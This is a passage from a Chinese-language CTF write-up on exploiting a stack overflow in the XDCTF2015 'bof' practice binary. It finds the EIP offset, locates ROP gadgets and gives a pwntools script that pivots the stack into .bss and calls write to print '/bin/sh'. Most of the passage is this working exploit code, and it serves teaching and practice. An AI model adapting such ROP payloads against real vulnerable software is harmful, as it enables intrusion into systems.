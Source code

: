 ![](https://lgyserver.top/wp-content/uploads/2022/04/2-2.png)

程序崩溃，发现eip值为：0x41384141

`pattern_offset 0x41384141`

即可得出移除偏移在112处。

![](https://lgyserver.top/wp-content/uploads/2022/04/3-2.png)

此外，通过ROPgadget，我们也可以很清楚的定位到需要的return gadget。

![](https://lgyserver.top/wp-content/uploads/2022/04/4-2.png)

![](https://lgyserver.top/wp-content/uploads/2022/04/5-2.png)

```
from pwn import *
elf = ELF('bof')
offset = 112
read_plt = elf.plt['read']
write_plt = elf.plt['write']

ppp_ret = 0x080492d9 # ROPgadget --binary bof --only "popret"
pop_ebp_ret = 0x080492db
leave_ret = 0x08049105 # ROPgadget --binary bof --only "leaveret"

# 新栈大小
stack_size = 0x800
# 新栈位于bss段，bss段的基地址
bss_addr = 0x0804c028 # readelf -S bof  grep ".bss"
# 新栈的栈底，基地址+大小
base_stage = bss_addr + stack_size

r = process('./test')

r.recvuntil('Welcome to XDCTF2015~!\n')
# 这部分构造“栈迁移原理”节所述的栈溢出ROP
payload = 'A' * offset # 定位到eip
payload += p32(read_plt) # 用read函数地址覆盖eip
payload += p32(ppp_ret) # read后的ret
payload += p32(0) # read参数1
payload += p32(base_stage) # read参数2
payload += p32(100) # read参数3

#这里会读取payload2写入到base_stage里面！
# 读取完了返回这里
payload += p32(pop_ebp_ret) # 把base_stage pop到ebp中，eip下移到write_plt
payload += p32(base_stage)
payload += p32(leave_ret) # mov esp, ebp ; pop ebp ;将esp指向base_stage
r.sendline(payload)

cmd = "/bin/sh"

payload2 = 'AAAA' # 接上一个payload的leave->pop ebp ; ret，不重要，因为不指望ret了
payload2 += p32(write_plt)# 直接传入write的plt地址
payload2 += 'AAAA'# ret相关的padding，不指望返回，不重要
payload2 += p32(1) #write参数1，输出到标准输出
payload2 += p32(base_stage + 80)#write参数2，buffer开始地址
payload2 += p32(len(cmd))#write参数3，输出长度
payload2 += 'A' * (80 - len(payload2))#补齐到80长度，后面的就是输出buffer了
payload2 += cmd + '\x00'# 输出buffer
payload2 += 'A' * (100 - len(payload2))# 补齐到100，因为payload里面read参数有100
r.sendline(payload2)
r.interactive()
```